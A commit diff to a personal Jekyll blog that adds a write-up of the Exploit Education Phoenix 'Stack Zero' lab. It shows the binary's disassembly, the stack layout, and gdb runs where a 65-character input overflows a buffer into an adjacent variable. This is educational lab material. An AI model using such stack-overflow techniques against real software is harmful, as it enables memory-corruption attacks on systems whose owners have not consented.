

Before and after one commit to s5dev/s5dev.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1157 px high. Shown: the whole window at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown; grey boxes are pictures that could not be loaded.

Commit message:
added stack zero post

````diff
--- /dev/null
+++ b/_posts/2023-01-12-exploit-education-stack-zero-exercise-writeup.md
@@ -0,0 +1,105 @@
+---
+layout: post
+title: Stack Zero Writeup - Exploit Education Lab Exercise
+categories: [security, binary-exploit, reverse-engineering, friday-gems]
+tags: [security, binary-exploitation, friday-gems]
+description: A comprehensive writeup that helps to understand Stack Zero exercise stack-overflow vulnerability with learning resources.
+---
+
+If you're learning and writing binary exploits, I would stronly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.
+
+If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)
+
+### Quick Overview
+
+Stack Zero exercise is based on stackoverflow memory corruption issue where you'll have to smash the stack to modify other variables in the stack to achieve code execution, execution flow redirection or behaviour in the program. Technically, `gets` function is unsafe that doesn't have bounds check basically, it accepts memory address to write but doesn't care about overwriting other declared variables in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int changeme` stays in main stackframe.
+
+### Disassemble
+
+Disassembling the code will get you overall idea behind the stack-zero code, One can use `gdb ./stack-zero` to start debugging it in runtime.
+
+1. `gdb ./stack-zero`
+2. Type `disassemble` to get the disassembled code (assembly)
+
+```assembly
+   0x00000000004005dd <+0>:     push   rbp
+   0x00000000004005de <+1>:     mov    rbp,rsp
+   0x00000000004005e1 <+4>:     sub    rsp,0x60
+   0x00000000004005e5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
+   0x00000000004005e8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
+   0x00000000004005ec <+15>:    mov    edi,0x400680
+   0x00000000004005f1 <+20>:    call   0x400440 <puts@plt>
+   0x00000000004005f6 <+25>:    mov    DWORD PTR [rbp-0x10],0x0
+   0x00000000004005fd <+32>:    lea    rax,[rbp-0x50]
+   0x0000000000400601 <+36>:    mov    rdi,rax
+   0x0000000000400604 <+39>:    call   0x400430 <gets@plt>
+   0x0000000000400609 <+44>:    mov    eax,DWORD PTR [rbp-0x10]
+   0x000000000040060c <+47>:    test   eax,eax
+   0x000000000040060e <+49>:    je     0x40061c <main+63>
+   0x0000000000400610 <+51>:    mov    edi,0x4006d0
+   0x0000000000400615 <+56>:    call   0x400440 <puts@plt>
+   0x000000000040061a <+61>:    jmp    0x400626 <main+73>
+   0x000000000040061c <+63>:    mov    edi,0x400708
+   0x0000000000400621 <+68>:    call   0x400440 <puts@plt>
+   0x0000000000400626 <+73>:    mov    edi,0x0
+   0x000000000040062b <+78>:    call   0x400450 <exit@plt>
+```
+
+Before taking a look at the code, if you disassembled the stack-zero using gdb to view the assembly instruction, you may notice the puts, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,
+
+1. Greet with `Welcome to phoenix/stack-zero, brought to you by https://exploit.education` message via Puts (aka printf) method
+2. Set `locals.changeme` variable to `zero` or `0x00` in hex
+3. Get `locals.buffer` variable filled by `gets` function
+4. Verify `locals.changeme` is not `zero` or `0x00` in hex
+5. Use puts(aka Printf) method to greet the user again
+6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker
+
+### Memory Allocation
+
+As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stackframe same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x60` as expected the stack grows from top (higher memory address) to bottom (lower memory address).
+
+![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-zero-rbp.jpg)
+
+You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe610` and `locals.changeme` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.changeme`. If you playaround with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.
+
+### Exploit
+
+As previously discussed `locals.buffer` and `locals.changeme` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.changeme` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.changeme` variable succesfully, thus completing the challenge.
+
+![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-zero-gdb.jpg)
+
+```assembly
+
+<FIRST TRY - 64 'A' character>
+
+(gdb) r
+Starting program: /opt/phoenix/amd64/stack-zero
+Welcome to phoenix/stack-zero, brought to you by https://exploit.education
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
+Uh oh, 'changeme' has not yet been changed. Would you like to try again?
+[Inferior 1 (process 426) exited normally]
+
+<SECOND TRY - 65 'A' character>
+
+(gdb) r
+Starting program: /opt/phoenix/amd64/stack-zero
+Welcome to phoenix/stack-zero, brought to you by https://exploit.education
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
+Well done, the 'changeme' variable has been changed!
+[Inferior 1 (process 430) exited normally]
+
+```
+
+There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may
+eventually perform remote code execution in the system. 🪲
+
+![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)
+
+### Source and Reference:
+
+1. Stack Zero Exercise: [Exploit Education](https://exploit.education/phoenix/stack-zero/)
+2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)
+
+### Closing Note:
+
+I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
--- a/assets/css/style.css
+++ b/assets/css/style.css
@@ -120,7 +120,7 @@
 article.home div a:hover, article.home pre a:hover { color: #2c3e50; text-decoration: none; }
 article img { max-width: 100%; }
 
-h1,h2,h3,h4,h5,h6 { font-family: 'fpt', sans-serif; }
+h1,h2,h3,h4,h5,h6 { font-family: 'fpt', sans-serif; font-weight: bold; }
 article.home h1,
 article.home h2,
 article.home h3,
````
Also changed, not shown: assets/media/exploit-education-phoenix-stack-zero-gdb.jpg (added), assets/media/exploit-education-phoenix-stack-zero-rbp.jpg (added), assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png (added).
